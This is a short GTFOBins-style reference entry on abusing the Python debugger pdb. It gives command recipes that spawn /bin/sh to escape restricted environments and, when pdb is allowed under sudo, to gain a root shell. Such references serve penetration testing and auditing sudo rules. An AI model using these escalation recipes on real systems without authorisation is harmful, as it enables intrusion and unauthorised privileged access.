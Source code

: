 # GTFOBin: pdb

This allows to execute `python` code, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo 'import os; os.system("/bin/sh")' > $TF
pdb $TF
cont
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo 'import os; os.system("/bin/sh")' > $TF
sudo pdb $TF
cont
```